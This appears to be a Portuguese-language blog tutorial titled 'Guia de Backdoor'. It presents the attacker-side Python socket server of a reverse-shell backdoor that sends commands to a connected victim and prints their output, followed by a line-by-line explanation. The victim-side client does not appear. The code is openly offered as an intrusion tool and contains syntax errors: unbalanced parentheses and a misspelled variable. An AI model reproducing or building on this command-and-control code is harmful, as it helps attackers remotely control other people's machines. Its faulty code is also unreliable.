 ```yaml
---
title: "Guia de Backdoor"
date: 2024-12-10 14:50:00 -0300
categories: [Guia]
tags: [Backdoor, APT-Técnicas]
---
```


![imagem](https://i.pinimg.com/736x/ae/f0/c1/aef0c11a232964100d4f5b7780f2b930.jpg)

# um Guia sobre Backdoors

> [!NOTE]
> Conteúdo desse Guia
* Como funciona um Backdoor
* Como fazer um simples Backdoor usando python

# um Backdoor simples em python
Nesse exemplo demonstro um Backdoor que usa uma reverse shell e estabelece uma conexão com o alvo para a maquina
do atacante do ataque, permitindo o atacante enviar comandos e receber outputs(saídas) do alvo.

* O código usa a biblioteca socket pra fazer a comunicação entre os Hosts

# Servidor

```
import socket

#comunicação do servidor
s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
s.bind('localhost', 8080)) #o ip padrão e localhost, e porta 8080
s.listen(1)

#quando estabelecida a conexão, printa conectado e o addr(ip do cliente)
while True:
    conn, addr = s.accept()
    print(f"[+]Conectado a {addr}")

#o looping que permite o servidor enviar comandos pro cliente e receber 
    while True:
        command = input("Shell > ")
        if command == 'exit':
          conn.send(b'exit')
          conn.close()
          break
        else:
            conn.send(command.encode())
            output = conn.recv(1024))
            print(outut.decode())
```

>[!NOTE]
> Explicação mais detalhada do código para qualquer um entender
> um pouco de programação

# como configurar um servidor de socket

```s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)```
* s -> cria um novo objeto de socket
* socket.AF_INET -> especifica que o socket usará o protocolo IPv4
* socket.SOCK_STREAM -> indica que o socket será do tipo TCP

```s.bind(('localhost', 8080))```
* o método bind associa o socket a um endereço IP e uma porta específicos
* Nesse caso, o servidor foi vinculado ao endereço localhost e à porta 8080

```s.listen(1)```
* o método listen coloca o socket em modo de escuta, aguardando conexões de clientes.
* o parâmetro 1 especifica o número máximo de conexões que podem ser enfileiradas. Nesse caso, o servidor aceitará uma conexão à espera de outra.

# como estabelecer conexões de clientes no servidor socket

```while True```
* um looping que permite que o servidor continue aceitando conexões até que seja interrompido.

```conn, addr = s.accept()```
* o método accept aguarda até que um cliente se conecte ao servidor. quando o cliente se conecta, accept retorna dois valores:
  
<ins>conn</ins>: um objeto de socket que permite a comunicação com o cliente.

<ins>addr</ins>:  uma tupla contendo o endereço Ip e a porta do cliente conectado.
  
```print(f"[+] Conectado a {addr}")```
* imprime uma mensagem no console indicando que a conexão foi estabelecida e mostra o endereço do cliente (addr)

# como estabelecer um looping que permite ao servidor enviar comandos a um cliente conectado e processar as respostas

```while True```
* um looping que permite que o servidor continue aceitando conexões até que seja interrompido.

```command = input("Shell >")```
* solicita ao usuário que insira um comando (input), exibindo o promt "shell >"

```if command == 'exit'```
* veridica se o comando inserido pelo usuário é "exit"

```conn.send(b'exit')```
* se o comando for "exit", o servidor envia uma mensagem ao cliente para indicar que a conexão deve ser encerrada. A mensagem é enviada como bytes.

```conn.close```
  * fecha a conexão com o cliente.
 
```break```
  * sai(termina) o loop, interrompendo a execução
   
```else```
  * se o comando não for "exit", o servidor executa o bloco de código a seguir.

```conn.send(command.encode())```
* o comando e inserido é enviado ao cliente após ser convertido para bytes com encode().

```output = conn.recv(1024)```
* o servidor aguarda e recebe a resposta do cliente, lendo até 1024 bytes de dados

```print(output.decode())```
* a resposta recebida é convertida de bytes de volta para uma string decode() e é impressa no terminal do servidor.
